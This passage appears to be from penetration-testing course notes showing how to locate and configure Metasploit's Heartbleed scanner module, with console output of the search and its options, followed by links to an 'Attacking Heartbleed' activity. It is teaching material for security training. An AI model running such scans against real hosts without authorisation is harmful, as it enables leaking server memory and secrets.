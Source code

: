    - Run `search heartbleed`

    ```bash
    msf > search heartbleed

    Matching Modules
    ================

       Name                                              Disclosure Date  Rank    Check  Description
       ----                                              ---------------  ----    -----  -----------
       auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
       auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
    ```

   - Auxillary modules are reconnaissance tools. They're used to scan networks and detect vulnerabilities such as Heartbleed.

    The first module, `auxiliary/scanner/ssl/openssl_heartbleed`, is used to test a host for the Heartbleed vulnerability.
  
   - Run `use auxiliary/scanner/ssl/openssl_heartbleed`

3. Now, we need to configure the modules before using them. 

    Check which parameters we need to set:

     - Run `show options`

    ```
    msf > use  auxiliary/scanner/ssl/openssl_heartbleed
    msf auxiliary(scanner/ssl/openssl_heartbleed) > show options

    Module options (auxiliary/scanner/ssl/openssl_heartbleed):

      Name              Current Setting  Required  Description
      ----              ---------------  --------  -----------
      DUMPFILTER                         no        Pattern to filter leaked memory before storing
      LEAK_COUNT        1                yes       Number of times to leak memory per SCAN or DUMP invocation
      MAX_KEYTRIES      50               yes       Max tries to dump key
      RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
      RHOSTS                             yes       The target address range or CIDR identifier
      RPORT             443              yes       The target port (TCP)
      ...
    ```

### 11. Activity: Attacking Heartbleed with Metasploit 

- [Activity File: Attacking Heartbleed with Metaploit](Activities/12_Metasploit_Heartbleed/README.md)

### 12. Activity Review: Attacking Heartbleed with Metasploit Activity 

